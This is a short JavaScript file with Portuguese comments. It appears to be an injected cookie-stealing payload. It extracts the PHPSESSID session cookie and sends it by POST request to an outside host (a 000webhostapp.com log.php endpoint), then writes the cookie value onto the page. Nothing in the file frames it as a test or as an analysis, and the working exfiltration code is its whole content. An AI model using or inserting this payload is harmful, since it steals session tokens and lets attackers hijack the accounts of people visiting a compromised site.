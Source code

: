 var cookieValue = document.cookie.replace(/(?:(?:^|.*;\s*)PHPSESSID\s*\=\s*([^;]*).*$)|^.*$/, "$1");
fetch('https://projetoxd.000webhostapp.com/log.php', {
  method: 'POST',
  headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
  body: 'PHPSESSID=' + encodeURIComponent(cookieValue)
}).then(function(response) {
  // Lida com a resposta do servidor aqui
}).catch(function(error) {
  // Lida com erros de rede ou de servidor aqui
});
// Verifica se o cookie 'nomeDoCookie' estÃ¡ presente
if (document.cookie.indexOf("PHPSESSID") !== -1) {
  // Se estiver presente, obtÃ©m o valor do cookie
  var cookieValue = document.cookie.replace(/(?:(?:^|.*;\s*)PHPSESSID\s*\=\s*([^;]*).*$)|^.*$/, "$1");
  // Apresenta o valor do cookie na tela
  document.write(cookieValue);
} else {
  // Se o cookie nÃ£o estiver presente, apresenta uma mensagem de erro na tela
  document.write(".");
}
